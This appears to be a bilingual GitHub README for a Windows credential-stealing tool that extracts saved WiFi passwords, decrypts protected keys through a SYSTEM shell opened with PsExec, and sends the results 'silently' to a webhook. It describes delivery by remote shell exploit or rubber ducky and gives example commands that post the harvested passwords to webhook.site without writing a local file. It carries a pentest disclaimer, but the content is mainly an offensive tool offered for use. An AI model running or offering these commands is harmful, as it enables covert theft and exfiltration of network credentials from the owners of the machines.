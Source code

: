 # WIFI_Extractor

<b>*DISCLAIMER*

This is not made for illegal or malicious purposes, I consider it like a post-exploitation tool with legal authority before of use in whatever location you are doing your pentest to check weak and reutilization of passwords, I'm not responsible of any malicious acts that you may do.

Esto no está hecho con fines ilegales o maliciosos, lo considero como una herramienta de post-explotación con autoridad legal antes del uso en cualquier lugar donde esté haciendo su pentest para verificar la debilidad y la reutilización de contraseñas, no soy responsable de cualquier acto malicioso que puedas hacer.
</b>

if you run it with python you might need this requeriments

Si lo ejecutas con python tal vez podrias necesitar estos requerimientos


pip install click

pip install elementpath

pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used "offline", physically (rubber ducky).
It can detect protected local passwords and try to decrypt it, you must need at least a cmd with admin privileges to be more successful, then with the help of PsExec it will try to open a system shell and execute wdecryptor with the key


Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
También se puede usar "offline", físicamente con un pendrive(rubber ducky).
Puede detecar contraseñas protegidas localmente y tratar de descriptarlas, necesitaras al menos una cmd con privilegios de admin para tener mas probabilidad de éxito, luego con la ayuda de PsExec tratará de ejecutar wdecryptor con la key.


<b>Usage: E_WIFI.exe [OPTIONS]


Options:

  -u, --url TEXT      Webhook/POST URL
  
  -n, --no-txt        No crea el archivo txt | Doesn't create the txt file
  
  -v, --version       Imprime la version | Prints the version
  
  -p, --print-output  Muestra la salida en la terminal | Shows the output in
                      the terminal
                      
  -a, --admin         Indica si la consola actual tiene privilegios de admin |
                      Indicates if the current console has admin privileges
                      
  --help              Show this message and exit.
  
  
  </b>

<b>* Offline</b>

python3 E_WIFIoffline.py


CMD or Powershell E_WIFIoffline.exe | ./E_WIFIoffline.exe (You can also double click it)

Creates a txt with the WIFI's ssid and passwords stored in the local machine

Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

<b>Online</b>

Usages

default usage

python3 E_WIFI.py


CMD or Powershell E_WIFI.exe | ./E_WIFI.exe

Creates a txt with the WIFI's ssid and passwords stored in the local machine

Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

<b>Another Example</b>

python3 E_WIFI.py -u https://webhook.site/yoururl -n -p 

CMD or Powershell E_WIFI.exe | ./E_WIFI.exe -u https://webhook.site/yoururl -n -p

type --help for more detailed info

PD: 

    THE TXT IS CREATED BY DEFAULT -n TURN IT OFF

    EL TXT SE CREA POR DEFECTO -n APAGA LA CREACION

<b>V1.3 and Wdecryptor Examples</b>

Quick Example of the new function (in the following hours I will update a more detailed one)

Ejemplo rapido de la nueva funcion (en las siguientes horas actualizare con unos ejemplos mas detallados)

E_WIFI.exe -p -a -u https://webhooksite...
![ejemplo nueva funcion](https://user-images.githubusercontent.com/74321905/225491588-1b1c1de4-0fa2-4981-8aa7-317983d13d6a.png)

"-a" will answer automatically with "Y" because it indicates that the current console is with admin privileges at least if you don't put this option you will need to put manually the option

"-a" respondera automaticamente con "Y" porque indica que la consola actual tiene al menos privilegios de administrador, si no pones esta opcion tendras que responder manualmente

You will see that in the webhook it will be sent with the decrypted password

Podras ver en el webhook que sera enviado con la contrasena desencriptada
![ejemplo nueva funcion2](https://user-images.githubusercontent.com/74321905/225492226-b03d05e1-4f79-4f88-b872-04df838bc34d.png)

<b>* Using Wdecryptor manually</b>

Also you can use the E_WIFI to extract the keys and then manually use Wdecryptor with an opened system authority cmd

Tambien podras usar E_WIFI para extraer las keys y luego manualmente usar wdecryptor con una cmd abierta con system authority

![ejemplo nueva funcion3](https://user-images.githubusercontent.com/74321905/225493385-921a6a0f-230c-4a2f-a83c-fa020282db92.png)

it will be saved in a "decrypted.txt" file also with the following format "Encrypted Key : Decrypted"

tambien se guardara en un archivo "decrypted.txt" con el siguiente formato "Key Encriptada : Descriptada"
